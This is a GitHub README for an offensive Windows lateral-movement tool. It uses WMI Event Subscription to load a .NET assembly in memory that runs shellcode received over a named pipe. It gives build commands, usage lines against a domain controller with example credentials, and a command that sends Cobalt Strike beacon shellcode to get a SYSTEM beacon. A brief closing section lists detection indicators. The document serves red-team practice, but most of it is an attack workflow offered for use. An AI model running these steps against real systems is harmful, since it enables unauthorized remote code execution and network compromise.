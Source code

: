 # Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

The diagram below (hopefully) clarifies the flow of data:

![](images/poc.jpeg)


## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman DeathToFrodo123 isengard.local
```

NOTE: Currently thers is a bug when you explicitly set user credentials, the tool will not work in that case. It is recommended to use `make_token` or any other impersonation mechanism instead.

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Second some DCOM love..
[*] Sleeping again... long day
```

The example above uses CobaltStrike's `execute-assembly` to launch LiquidSnake:

![](images/2021-08-31-16-42-30.png)

Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```

![](images/2021-08-31-16-43-15.png)

Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\dc01\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```

![](images/2021-08-31-16-41-25.png)

If everything worked as expected, you should obtain a SYSTEM beacon:

![](images/2021-08-31-16-41-05.png)

## Detection

There are many detection opportunities to identify the abuse of this tool and in general the use of this technique:

- Module load events for `clr.dll` related to the `scrcons.exe` process
- Creation of a named pipe related to the `scrcons.exe` process 